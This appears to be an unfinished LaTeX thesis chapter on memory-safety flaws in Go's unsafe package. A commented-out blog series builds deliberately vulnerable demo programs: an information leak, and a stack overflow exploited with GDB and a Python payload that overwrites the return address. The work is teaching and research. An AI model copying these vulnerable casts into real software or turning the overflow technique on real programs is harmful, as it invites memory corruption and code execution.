\chapter{Unsafe Security Problems}\label{ch:unsafe-security-problems}

This chapter provides an in-depth security analysis of unsafe code usages.

\begin{figure}[ht]
    
\includegraphics[width=\textwidth]{assets/figures/chapter1/outline.pdf}
    \caption{Thesis Outline and Chapter Relations}
    \label{fig:outline}
\end{figure}



\section{Buffer Overflow Vulnerabilities}

\subsection{Information Leak}

\subsection{Code Flow Redirection}

Notes: Go uses no \acrshort{aslr}, binaries are statically linked and the standard library is huge.
Therefore binaries provide a lot of ROP gadgets and spawning a shell from a buffer overflow is easier than with a
comparable C program.

Anschauen: k8s.io/apiserver/pkg/authentication/token/cache/cached\_token\_authenticator.go:235

\begin{lstlisting}[language=Golang, label=lst:todo-unsafe-snippet, caption=Todo: unsafe code snippet?]
// toBytes performs unholy acts to avoid allocations
func toBytes(s string) []byte {
    return *(*[]byte)(unsafe.Pointer(&s))
}
\end{lstlisting}


\subsection{Code Injection using ROP}

\begin{figure}[htp!]
    %\vspace{2mm}
    \centering
    
\includegraphics[width=0.5\textwidth]{assets/figures/chapter3/protocol.pdf}
    \caption{Example Protocol to Motivate Threat Model for Unsafe Cast}
    \label{fig:protocol-threat-model}
    %\vspace{-10pt}
\end{figure}

\begin{figure}[htp!]
    %\vspace{2mm}
    \centering
    
\includegraphics[width=\textwidth]{assets/figures/chapter3/payload.pdf}
    \caption{Stack Smashing Payload to Redirect Code Flow}
    \label{fig:stack-smashing-payload}
    %\vspace{-10pt}
\end{figure}



\section{Incorrect Slice and String Casts}

\subsection{Incorrect Length Information}

go-fuse

\subsection{Implicit Read-Only}

\subsection{GC Race Use-After-Free}

Note: to use unsafe pattern 4 in syscalls, a conversion to uintptr must occur within the call statement for the compiler
to notice it.
If you have a function that already takes a uintptr argument, like the sys package uses a lot, then that function when
doing the actual syscall must cast the uintptr to uintptr again to make the no-garbage-collect magic happen.

\begin{figure}[htp!]
    %\vspace{2mm}
    \centering
    
\includegraphics[width=\textwidth]{assets/figures/gc.pdf}
    \caption{Garbage Collector Visualization}
    \label{fig:gc-visualization}
    %\vspace{-10pt}
\end{figure}

\begin{figure}[!t]
    \vspace{2mm}
    \centering
    
\includegraphics[width=0.4\textwidth]{gfx/figures/gcrace-vuln.pdf}
    %
\includegraphics[width=0.48\textwidth]{gfx/figures/gcrace-vuln.pdf}
    \caption{GC race and escape analysis flaw}
    \label{fig:gcrace-vuln}
    \vspace{-8pt}
\end{figure}



\subsection{Escape Analysis Use-After-Free}

No-Escape function pattern:

\begin{lstlisting}[language=Golang, label=lst:no-escape-function, caption=No-Escape Function Pattern]
// NoEscape hides a pointer from escape analysis.  noescape is
// the identity function but escape analysis doesn't think the
// output depends on the input.  noescape is inlined and currently
// compiles down to zero instructions.
// USE CAREFULLY!
//go:nosplit
func NoEscape(p unsafe.Pointer) unsafe.Pointer {
    x := uintptr(p)
    return unsafe.Pointer(x ^ 0)
}
\end{lstlisting}

Is the identified unsafe cast pattern safe if it is done in one statement?

\begin{lstlisting}[language=Golang, label=lst:cast-1-statement, caption=Unsafe slice cast in one single statement]
strHeader := (*reflect.StringHeader)(unsafe.Pointer(&s))
return *(*[]byte)(unsafe.Pointer(&reflect.SliceHeader{
    Data: strHeader.Data,
    Cap:  strHeader.Len,
    Len:  strHeader.Len,
}))
\end{lstlisting}

The garbage collector race exploit does not work anymore with this.
This might be because of the time delay, because the assembly looks IDENTICAL!

Escape analysis however can still not see the connection, the escape analysis exploit still works.


\section{Architecture-Dependent Types}

%%% -----------------------------------------------------------------------------
%
%\section{Submission of fixes to open-source libraries}\label{sec:vulnerability-fixes}
%
%
%
%
%%% -----------------------------------------------------------------------------
%
%\chapter{Blog Post Series}\label{ch:blog}
%
%
%%% -----------------------------------------------------------------------------
%
%\section{Part 1}
%
%Go in general is a safe language. It has memory builtin safety measures that should avoid common buffer overflow
%vulnerabilities, like they often exist in C programs.
%
%The unsafe standard library package defeats this memory safety. With unsafe.Pointer, we can create a pointer of
%arbitrary type. The compiler can't and won't enforce safety measures on this type of pointer.
%
%In this first of a four-part, weekly series on practically exploiting unsafe.Pointer usage, we will cover the possibilities
%that come with unsafe.Pointer and look at a first potential vulnerability: an information leakage.
%
%
%\textbf{What is this about?}
%
%So why did I write this blog post? I am a computer science student at TU Darmstadt, Germany. I am currently writing my
%Master's thesis on an analysis of real-world usage patterns of the Go unsafe package. As part of the research, I look
%into actual use cases of unsafe.Pointer references in the biggest open source Go projects, analyze and categorize them,
%and identify potentially dangerous patterns and vulnerabilities. I am also comparing the unsafe features of Go to the
%unsafe mode in Rust [[4]](references), as there are some similarities.
%
%As a first step in finding out which usage patterns are dangerous, I created some artificial proof of concepts that
%demonstrate applications that are vulnerable due to a wrong use of unsafe.Pointer. While doing this, I figured this
%could be an interesting read or even short exercise for Go developers. If you have some ideas or thoughts on this topic,
%I'd be very happy to know!
%
%So grab your favorite beverage, fire up your code editor of choice, and enjoy this little journey covering different
%types of vulnerabilities. We will look at the exact problem in the code and explain why it arises, and discuss possible
%means of introducing such a problem in the real world.
%
%
%\textbf{Buffer overflows, part 1: the stack layout }
%
%Let's start with a short discussion of the stack. A stack is a data structure that grows like a tower of things. New
%items can be pushed onto the stack, and items on the stack can be removed or popped. A CPU uses a stack to keep track
%of data that is meaningful in the current context. Most importantly, it is used for calling functions. The stack used
%in the x8664 architecture is an area in the RAM which is identified by the stack pointer register rsp.
%
%Pushing something onto the stack is done be decrementing the stack pointer by some amount, e.g. a processor word (8 byte
%on 64-bit architecture). Then the data is written to the address where the stack pointer now points to. Decrementing the
%stack pointer marks the memory region as belonging to the stack. When popping values from the stack, the stack pointer
%is incremented again, marking the memory region as free again. Because the stack pointer decrements with new data, we
%can say that the stack grows to the bottom, starting from high addresses in memory and growing to low addresses.
%
%
%When the current program calls a function, the return address as well as some function parameters (more on this in part
%3 of this series) are pushed onto the stack, and the processor jumps to the first instruction of the function. This jump is done
%by setting the instruction pointer register rip. Then, when the function returns (by executing the ret instruction),
%the return address is popped from the stack and put into the rip register. More on this can be read in [[2]](references).
%
%The function can store local variables on the stack (inside its so-called stack frame). These are pushed onto the stack
%after the return address and saved registers, meaning the variables are at lower memory addresses than the return
%address. Furthermore, variables on the stack are located directly next to each other. This is why bounds checking is
%very important for buffers. Reading or writing outside the bounds of a variable means we are reading or writing other
%variables. We call this buffer overflow.
%
%This is a visualization of a stack frame for a function:
%
%
%\textbf{Go memory safety}
%
%Go employs some safety techniques that prevent buffer overflows, among other vulnerabilities. The type system strictly
%encodes the buffer length of variables, e.g. we have [8]byte and [16]byte as completely different types with no
%casting from the short buffer to the long buffer. This prevents the misuse of memory regions which will eventually lead
%to a potentially exploitable buffer overflow.
%
%Dangerous operations common to C programs such as pointer casting and the infamous, no-bounds-checking gets() function
%are therefore impossible with safe Go programs.
%
%However, there exists the unsafe package and with it the unsafe.Pointer type [[1]](references). This pointer type
%is special in that it can participate in type operations that would otherwise be forbidden:
%
%1. we can cast any pointer type into unsafe.Pointer
%2. we can cast unsafe.Pointer into any pointer type
%3. we can cast unsafe.Pointer into uintptr, which is essentially the address as an integer
%4. we can cast uintptr into unsafe.Pointer
%
%Points 1 and 2 allow type-casting between arbitrary types, and points 3 and 4 allow pointer arithmetic. With these
%powers however comes great responsibility: using them removes the safety net of Go, meaning we're back at the security
%madness of plain C code. The unsafe package must therefore be used only with extreme caution.
%
%In the following proof of concepts, we will demonstrate some of the potential vulnerabilities that can be introduced
%surprisingly fast when using unsafe.Pointer.
%
%
%\textbf{Information leakage POC}
%
%In this short proof of concept, let's assume there is a buffer of harmless, public data. It is called harmlessData
%and it might store e.g. the version of the program, or the public display name of a logged-in user.
%
%Behind it, there is a declaration of a secret data buffer. For the sake of the argument, imagine that it might be some
%private information about a logged-in user, e.g. their password hash or a certificate private key.
%
%func main()
%// this could be some public information, e.g. version information
%harmlessData := [8]byte'A', 'A', 'A', 'A', 'A', 'A', 'A', 'A'
%// however, this could be critical private information such as a private key
%secret := [17]byte'l', '3', '3', 't', '-', 'h', '4', 'x', 'x', '0', 'r', '-', 'w', '1', 'n', 's', '!'
%// ...
%
%
%Next, the buffer is cast. Using the unsafe.Pointer type, we can do any type casting we want, defeating the Go memory
%safety measures. Here, we cast the buffer into a new byte buffer, but with a bigger size. After this, we print the new
%(dangerous) buffer.
%
%// ...
%// (accidentally) cast harmless buffer into a new buffer type of wrong size
%var dangerousData = (*[8+17]byte)(unsafe.Pointer(harmlessData[0]))
%// print (misused) buffer
%fmt.Println(string((*dangerousData)[:]))
%
%
%Running this script will read the newly created, dangerous buffer. The length information will be inappropriate, and
%thus the program will read memory after the end of the harmless data, revealing the secret data:
%
%go run main.go
%AAAAAAAAl33t-h4xx0r-w1ns!
%
%This is an information leak, because we read and send more data than we wanted.
%
%But how could this ever happen? Let's assess a threat model!
%
%
%\textbf{Threat model}
%
%Admittedly, when the buffer definition and cast are located very close to each other, it is hard to imagine that such
%a bug would go unnoticed in a production software project. But I would argue that it is far less unlikely for such
%mistakes to happen if we add some human factors into the equation.
%
%Imagine you work at a large software company which is building some application that has a client/server communication
%model. The development of the server and client applications has been separated into different teams, and you work in
%the server team. Now, at some meeting a couple of months ago, you and your colleagues drafted and agreed upon an API
%specification for the binary communications protocol that you want to use between the client and server. The protocol
%features a request definition that the client sends to the server. The request data is serialized into a binary stream.
%Its structure looks like this:
%
%![Binary protocol structure](assets/protocol.svg)
%
%It is a super simple protocol that doesn't even feature variable-length messages. It is just a static byte object with
%a version, message type, and the actual data. Similar to the request, there is also a response type that looks the same.
%Now, you and your team printed the diagram weeks ago and put it on your wall to ensure all developers can see it promptly.
%But what none of you realized is that the client development team agreed on a new version of the protocol, which has a
%256 bytes data field to reduce the over-the-wire packet size.
%
%When you implement the server, you are now adding a simple buffer to store request and response objects for later
%processing. You look at the diagram on the wall and determine that the size of protocol messages is guaranteed to be
%exactly 516 byte, so initialize a [516]byte variable. To avoid unnecessary copying of the data structure before
%reaching your buffering function, your team has decided to pass along a reference to the request object. You are using
%an unsafe.Pointer reference to simplify casting operations. The function you are implementing looks like this:
%
%go
%func bufferrequest(req unsafe.Pointer)
%var buf [516]byte
%buf = *(*[516]byte)(req)
%// use buf for some operations
%
%
%
%Now, the problem is that the req parameter, referencing the source data structure somewhere in memory, was created
%with the new protocol version in mind, i.e. the request packet only takes 260 bytes. But your new buffer is reading
%516 bytes, that is 256 bytes too many! When the buffer is sent somewhere else, or shown to the user, you might read
%and publish 256 extra bytes, containing potentially secret information.
%
%A similar thing could happen in the other direction, when the response object is used.
%
%When you push this new function, and your team does a thorough code review, all your colleagues see the buffer allocation,
%immediately look at the wall and verify that the request data packet indeed takes exactly 516 bytes. None of them catches
%the mistake and the software is shipped.
%
%The problem was not a miscalculation, but a miscommunication within the organization, combined with a lack of defensive
%programming techniques and a missing mindset of the dangers that come with the use of unsafe.Pointer references.
%
%By the way, reading and sending more data than the correct amount might make you remember one of the most dangerous bugs
%of recent times: the famous Heartbleed bug in OpenSSL [[3]](references), where a missing bounds check cause a read
%buffer overrun and leaked private information from the process memory. However, this example is different in that the
%length is **not provided by an attacker**. The length information that OpenSSL failed to verify was supplied as part of
%the input data to OpenSSL. Here, I crafted an example where the length mismatch is statically coded into the binary
%because of a mistake the programmers made. A user-supplied length overrun is much more dangerous because it does not
%cause problems in every run of the software, which makes it much harder to detect.
%
%An example more similar to the Heartbleed bug would require a protocol definition with a length field, and a server
%application crafting a buffer using that length information. This is possible when manually crafting slices in Go using
%the reflect.SliceHeader structure, and we will explore that in the next part of this series!
%
%
%\textbf{Proof of concept code}
%
%I published the proof of concept code for this post, as well as the code for the following parts 2 to 4, in a Github
%repository:
%
%If you'd like to check out the complete code and run it for yourself, you can save yourself some typing by using this
%repository.
%
%
%
%%% -----------------------------------------------------------------------------
%
%\section{Part 2}
%
%In this second part, we will evolve from reading memory to redirecting the code flow. This means we will be controlling
%what is being executed.
%
%Buffer overflow, part 2: controlling the return address
%
%In the first part we learned that local variables are located on the stack at addresses just below the return address.
%When the function returns, it will increment the stack pointer to the point where no space for local variables is used,
%effectively freeing them. The stack pointer rsp will then point to the stored return address.
%
%Now comes the ret machine instruction. It is actually equivalent to pop rip or even mov rip, [rsp]; add rsp, 8.
%The processor will fetch the address stored on the top of the stack, put it into the instruction pointer register, and
%continue execution at that address.
%
%![Return to saved RIP](assets/return.svg)
%
%If we can somehow change the return address stored on the stack to an address we can control, we can change the program
%control flow.
%
%
%Code flow redirection POC
%
%To see how we can actually exploit this, we will have a look at a proof of concept exploit with an example program.
%
%First, we create a win function to be compiled into the binary. We can use it as a target to redirect the code
%flow to. This is a good first step in learning code flow exploitation. The function does not do very much, it simply prints
%"win!" so that we know we did good:
%
%\begin{lstlisting}[language=Golang, label=lst:win-function, caption=Target function \texttt{win} for code flow redirection]
%func win()
%fmt.Println("win!")
%\end{lstlisting}
%
%The main function of the program looks like this:
%
%\begin{lstlisting}[language=Golang, label=lst:redirection-poc-1, caption=Code flow redirection POC first part]
%// initialize the reader outside of the main function to simplify POC development, as
%// there are less local variables on the stack.
%var reader = bufio.NewReader(os.Stdin)
%
%func main()
%// this is a harmless buffer, containing some harmless data
%harmlessData := [8]byte'A', 'A', 'A', 'A', 'A', 'A', 'A', 'A'
%
%// create a slice of length 512 byte, but assign the address of the harmless data as
%// its buffer. Use the reflect.SliceHeader to change the slice
%confusedSlice := make([]byte, 512)
%sliceHeader := (*reflect.SliceHeader)(unsafe.Pointer(confusedSlice))
%harmlessDataAddress := uintptr(unsafe.Pointer((harmlessData[0])))
%sliceHeader.Data = harmlessDataAddress
%
%// now read into the confused slice from STDIN. This is not quite as bad as a gets()
%// call in C, but almost. The function will read up to 512 byte, but the underlying
%// buffer is only 8 bytes. This function is pretty much the complete vulnerability
%,  = reader.Read(confusedSlice)
%\end{lstlisting}
%
%
%There is a buffer of length 8 bytes with some harmless data. It is created as a local variable, which means it will live
%on the stack at an address a bit lower than the return address.
%
%Next, we will simulate an almost-as-bad coding practice as calling the gets() function in a C code. We will
%deliberately create a buffer overflow vulnerability. Recall that Go has some safety features that prevent buffer
%overflows, so for this to work we are using the unsafe.Pointer type.
%
%We initialize a slice with initial length and capacity 512 bytes. The slice is actually placed on the heap, not the
%stack, but that is irrelevant for the vulnerability. Next, using the reflect.SliceHeader structure we can extract
%the slice header data structure that Go uses internally to represent the slice. It looks like this:
%
%For testing, I here refer to Listing~\ref{lst:win-function}.
%
%go
%type SliceHeader struct
%Data uintptr
%Len  int
%Cap  int
%
%
%
%The length and capacity are 512 in this case, and Data is a pointer to the underlying array that contains the elements
%in the slice. Now, using the magic of unsafe pointers we can obtain the address of the 8 byte harmless buffer, cast it
%into a uintptr address value and replace the Data pointer with that address. This way, the slice will now point to the
%small buffer as its underlying array, but the length will still be set to 512 bytes.
%
%This is a misuse of the unsafe package and it creates a very dangerous situation: Calling reader.Read() in the next
%statement will fill the slice with data from standard input, but the function thinks it is safe to read up to 512 bytes
%while the underlying array is only 8 bytes long. This is not completely identical to the unbounded gets() call,
%but the effect is the same as the confused slice is more than long enough to provide an attack surface.
%
%To sketch a threat model, recall the binary communication protocol from the last part of this blog series. We mentioned
%that in order to have dynamic packet lengths, we would add a length field. If we write the code for the server application
%without the dangers of explicitly creating slice headers in mind, we could simply use the length coming from the request
%data as length for our slice. This would create a situation similar to the one above, and because the length would be
%set by an attacker, a bit closer to the Heartbleed bug [[1]](references) as well.
%
%
%Crafting a binary exploit
%
%Now, how can we use this buffer overflow vulnerability and create an actual exploit that will put a meaningful address
%into the stack at exactly the right position to be loaded into the instruction pointer? For this, we will use GDB.
%
%Playing around with the program shows an input prompt that reads some data and then seems to just swallow it:
%
%shell
%./main
%Hello World
%
%
%
%However, putting in a large string will crash the program. That is a pretty good hint that there is potential to
%exploit a buffer overflow.
%
%shell
%./main
%AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
%AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
%AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
%AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
%AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
%AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
%AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
%unexpected fault address 0x0
%fatal error: fault
%[signal SIGSEGV: segmentation violation code=0x80 addr=0x0 pc=0x4925d1]
%
%goroutine 1 [running]:
%runtime.throw(0x4c1077, 0x5)
%/usr/lib/go/src/runtime/panic.go:1112 +0x72 fp=0xc000110f50 sp=0xc000110f20 pc=0x42ebd2
%runtime.sigpanic()
%/usr/lib/go/src/runtime/signalunix.go:694 +0x3cc fp=0xc000110f80 sp=0xc000110f50 pc=0x4429dc
%runtime: unexpected return pc for main.main called from 0x4141414141414141
%stack: frame=sp:0xc000110f80, fp:0xc000110f88 stack=[0xc000110000,0xc000111000)
%    000000c000110e80:  0000000000000001  0000000000000000
%    000000c000110e90:  000000c000110ed0  0000000000430404 <runtime.gwrite+164>
%    000000c000110ea0:  0000000000000002  00000000004c0dd6
%    000000c000110eb0:  0000000000000001  0000000000000001
%    000000c000110ec0:  000000c000110f3d  0000000000000003
%    000000c000110ed0:  000000c000110f20  0000000000430c28 <runtime.printstring+120>
%    000000c000110ee0:  000000000042ed97 <runtime.fatalthrow+87>  000000c000110ef0
%    000000c000110ef0:  0000000000458580 <runtime.fatalthrow.func1+0>  000000c000000180
%    000000c000110f00:  000000000042ebd2 <runtime.throw+114>  000000c000110f20
%    000000c000110f10:  000000c000110f40  000000000042ebd2 <runtime.throw+114>
%    000000c000110f20:  000000c000110f28  0000000000458500 <runtime.throw.func1+0>
%    000000c000110f30:  00000000004c1077  0000000000000005
%    000000c000110f40:  000000c000110f70  00000000004429dc <runtime.sigpanic+972>
%    000000c000110f50:  00000000004c1077  0000000000000005
%    000000c000110f60:  4141414141414141  0000000000000000
%    000000c000110f70:  4141414141414141  00000000004925d1 <main.main+177>
%    000000c000110f80: <4141414141414141 >4141414141414141
%    000000c000110f90:  4141414141414141  4141414141414141
%    000000c000110fa0:  4141414141414141  4141414141414141
%    000000c000110fb0:  4141414141414141  4141414141414141
%    000000c000110fc0:  4141414141414141  4141414141414141
%    000000c000110fd0:  4141414141414141  4141414141414141
%    000000c000110fe0:  4141414141414141  4141414141414141
%    000000c000110ff0:  4141414141414141  4141414141414141
%    main.main()
%    /tmp/code-injection/main.go:28 +0xb1 fp=0xc000110f88 sp=0xc000110f80 pc=0x4925d1
%
%
%    In the resulting stack trace, we can even see a lot of 0x41 values, which is the ASCII value for the letter A.
%
%    It is time to debug the program with GDB and see where the instruction pointer actually points to after the function
%    return. This way, we can adjust the number of bytes that we need to scramble into the program before we can put our
%    exploit payload, overwriting the return address on the stack.
%
%    To do this, I create a Python script to produce the exploit payload:
%
%    python
%    !/usr/bin/env python2
%
%    pattern = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVV"
%    print(pattern)
%
%
%    The pattern consists of letters in ascending order. This is a pattern that is easily recognizable in the hex outputs
%    of GDB and really useful to determine the return address offset on the stack.
%
%    In GDB, start the program like this:
%
%    gdb
%    gdb-peda run <<<(./exploitwin.py)
%    [...]
%    Stopped reason: SIGSEGV
%    0x00000000004925d1 in main.main () at main.go:28
%
%
%    We pipe the output of the exploit script into the program, and we see that the program receives a SIGSEGV segmentation
%    fault signal. This signal means that the processor tried to read or write data at an invalid address, here it's because
%    it tried to execute the ret instruction and jump to an address consisting of our ASCII characters. To see
%    which address the CPU would jump to, we need to look at the top of the stack:
%
%    gdb
%    gdb-peda x/8wx rsp
%    0xc000068f80:	0x4f4f4f4f	0x50505050	0x51515151	0x52525252
%    0xc000068f90:	0x53535353	0x54545454	0x55555555	0x56565656
%
%
%    Using the x command, we inspect 8 words of data (each word is 4 bytes in GDB) and print them in hexadecimal form. The
%    first two blocks (8 bytes total) are the 64-bit word that the CPU wants to put into the rip register. We
%    can see that it is 0x4f4f4f4f50505050. Looking at the ASCII table, we see that it corresponds to OOOOPPPP, and
%    therefore we need to cut the padding just before the O's and replace those eight characters with the address we want to
%    jump to.
%
%    Just before closing GDB, let's quickly use it to find the address of our specially crafted win function. First, try
%    to directly access its address:
%
%    shell
%    gdb-peda x main.win
%    No symbol "main.win" in current context.
%
%
%    We see that there doesn't seem to be any function called win. This is because the Go compiler decided to inline the
%    function (we can see the inlining decisions by compiling with go build -gcflags='-m'). Let's instead just directly
%    jump to the address of the print call that will show us the win message. We search for it in the disassembly of the
%    main function:
%
%    gdb
%    gdb-peda disassemble main.main
%    Dump of assembler code for function main.main:
%    0x0000000000492520 <+0>:	mov    rcx,QWORD PTR fs:0xfffffffffffffff8
%    0x0000000000492529 <+9>:	cmp    rsp,QWORD PTR [rcx+0x10]
%    0x000000000049252d <+13>:	jbe    0x49262d <main.main+269>
%    0x0000000000492533 <+19>:	sub    rsp,0x78
%    0x0000000000492537 <+23>:	mov    QWORD PTR [rsp+0x70],rbp
%    0x000000000049253c <+28>:	lea    rbp,[rsp+0x70]
%    0x0000000000492541 <+33>:	mov    rax,QWORD PTR [rip+0x48e10]         0x4db358
%    0x0000000000492548 <+40>:	mov    QWORD PTR [rsp+0x40],rax
%    0x000000000049254d <+45>:	lea    rax,[rip+0xe82c]         0x4a0d80
%    0x0000000000492554 <+52>:	mov    QWORD PTR [rsp],rax
%    0x0000000000492558 <+56>:	mov    QWORD PTR [rsp+0x8],0x200
%    0x0000000000492561 <+65>:	mov    QWORD PTR [rsp+0x10],0x200
%    0x000000000049256a <+74>:	call   0x443670 <runtime.makeslice>
%    0x000000000049256f <+79>:	mov    rax,QWORD PTR [rsp+0x18]
%    0x0000000000492574 <+84>:	mov    QWORD PTR [rsp+0x58],rax
%    0x0000000000492579 <+89>:	mov    QWORD PTR [rsp+0x60],0x200
%    0x0000000000492582 <+98>:	mov    QWORD PTR [rsp+0x68],0x200
%    0x000000000049258b <+107>:	lea    rax,[rsp+0x40]
%    0x0000000000492590 <+112>:	mov    QWORD PTR [rsp+0x58],rax
%    0x0000000000492595 <+117>:	mov    rax,QWORD PTR [rip+0xd3ce4]         0x566280 <main.reader>
%    0x000000000049259c <+124>:	mov    QWORD PTR [rsp],rax
%    0x00000000004925a0 <+128>:	mov    rax,QWORD PTR [rsp+0x58]
%    0x00000000004925a5 <+133>:	mov    QWORD PTR [rsp+0x8],rax
%    0x00000000004925aa <+138>:	mov    QWORD PTR [rsp+0x10],0x200
%    0x00000000004925b3 <+147>:	mov    QWORD PTR [rsp+0x18],0x200
%    0x00000000004925bc <+156>:	call   0x46b740 <bufio.(*Reader).Read>
%    0x00000000004925c1 <+161>:	cmp    BYTE PTR [rsp+0x40],0x2a
%    0x00000000004925c6 <+166>:	je     0x4925d2 <main.main+178>
%    0x00000000004925c8 <+168>:	mov    rbp,QWORD PTR [rsp+0x70]
%    0x00000000004925cd <+173>:	add    rsp,0x78
%    => 0x00000000004925d1 <+177>:	ret
%    0x00000000004925d2 <+178>:	nop
%    0x00000000004925d3 <+179>:	xorps  xmm0,xmm0
%    0x00000000004925d6 <+182>:	movups XMMWORD PTR [rsp+0x48],xmm0
%    0x00000000004925db <+187>:	lea    rax,[rip+0xe65e]         0x4a0c40
%    0x00000000004925e2 <+194>:	mov    QWORD PTR [rsp+0x48],rax
%    0x00000000004925e7 <+199>:	lea    rax,[rip+0x491b2]         0x4db7a0
%    0x00000000004925ee <+206>:	mov    QWORD PTR [rsp+0x50],rax
%    0x00000000004925f3 <+211>:	mov    rax,QWORD PTR [rip+0xd3c9e]         0x566298 <os.Stdout>
%    0x00000000004925fa <+218>:	lea    rcx,[rip+0x4a95f]         0x4dcf60 <go.itab.*os.File,io.Writer>
%    0x0000000000492601 <+225>:	mov    QWORD PTR [rsp],rcx
%    0x0000000000492605 <+229>:	mov    QWORD PTR [rsp+0x8],rax
%    0x000000000049260a <+234>:	lea    rax,[rsp+0x48]
%    0x000000000049260f <+239>:	mov    QWORD PTR [rsp+0x10],rax
%    0x0000000000492614 <+244>:	mov    QWORD PTR [rsp+0x18],0x1
%    0x000000000049261d <+253>:	mov    QWORD PTR [rsp+0x20],0x1
%    0x0000000000492626 <+262>:	call   0x48bf10 <fmt.Fprintln>
%    0x000000000049262b <+267>:	jmp    0x4925c8 <main.main+168>
%    0x000000000049262d <+269>:	call   0x459ae0 <runtime.morestacknoctxt>
%    0x0000000000492632 <+274>:	jmp    0x492520 <main.main>
%    End of assembler dump.
%
%
%    It might not be completely obvious where the function starts, but given the call to win that we added to stop the
%    compiler from removing the function altogether was inside an if-statement, it is reasonable that the function would
%    be at the target of some conditional jump instruction (je in line <+161> here): it is at line <+178>, starting with
%    a NOP instruction. Skipping the NOP, we can use line <+179> or address 0x00000000004925d3 as target.
%
%    So let's update the exploit code to use the correct padding and the target address:
%
%    python
%    !/usr/bin/env python2
%
%    import struct
%
%    padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN"
%    winp = struct.pack("Q", 0x4925d3)
%
%    print(padding + winp)
%
%
%    Running the program with this input creates the following output:
%
%    shell
%    ./exploitwin.py | ./main
%    win!
%    unexpected fault address 0xc000072000
%    fatal error: fault
%    [signal SIGSEGV: segmentation violation code=0x2 addr=0xc000072000 pc=0xc000072000]
%
%    goroutine 1 [running]:
%    runtime.throw(0x4c1077, 0x5)
%    /usr/lib/go/src/runtime/panic.go:1112 +0x72 fp=0xc000070fd8 sp=0xc000070fa8 pc=0x42ebd2
%    runtime: unexpected return pc for runtime.sigpanic called from 0xc000072000
%    stack: frame=sp:0xc000070fd8, fp:0xc000071008 stack=[0xc000070000,0xc000071000)
%        000000c000070ed8:  000000c000070fbc  000000c000070f18
%        000000c000070ee8:  000000000043023b <runtime.recordForPanic+299>  0000000000590565
%        000000c000070ef8:  00000000004c0dd6  0000000000000001
%        000000c000070f08:  0000000000000001  0000000000000000
%        000000c000070f18:  000000c000070f58  0000000000430404 <runtime.gwrite+164>
